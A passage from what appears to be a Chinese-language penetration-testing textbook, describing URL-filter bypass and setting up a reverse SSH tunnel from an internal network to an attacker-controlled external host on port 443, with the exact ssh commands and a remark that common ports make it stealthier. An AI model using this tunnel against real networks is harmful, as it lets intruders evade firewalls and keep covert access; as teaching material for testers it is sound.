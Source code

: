 图 9.8：成功访问受限域

绕过 URL 过滤机制后，攻击者可能能够访问他们控制的网站；例如，他们可能能够放置加密恶意软件以挖掘托管端点的计算能力。

### 从外到内

要从外部系统建立到内部系统的稳定连接，必须使用 SSH 创建一个隧道。在这种情况下，我们有一台连接到内部局域网的 Kali Linux 机器，它具有有效的 IP 地址。以下命令将帮助在网络内部创建一个隧道通向外部。在运行之前，测试者必须确保通过编辑 `/etc/ssh/ssh_config` 更改 SSH 配置，将 `GatewayPorts` 设置为 `yes`，并通过运行 `sudo service ssh restart` 重启 SSH 服务：

```
ssh -R 2210:localhost:443 -p 443 remotehacker@ExternalIPtoTunnel 
```

*图 9.9* 显示了通过 SSH 从内部网络登录到云端机器上的 Kali Linux，该机器已经在本地主机上打开了 `2210` 端口来转发 SSH：

![文本 描述自动生成](img/B17765_09_09.png)

图 9.9：从内部网络到外部主机创建反向 SSH 隧道

这样做是为了建立一个稳定的反向连接到远程主机，使用反向 SSH 隧道绕过任何防火墙限制。如果攻击者利用常见端口如`80`、`8080`、`443` 和 `8443`，则将更加隐蔽。一旦远程系统验证通过，从远程主机运行以下命令。这应该能让你在防火墙外部仍能访问内部网络：

```
ssh -p 2210 localhost 
```
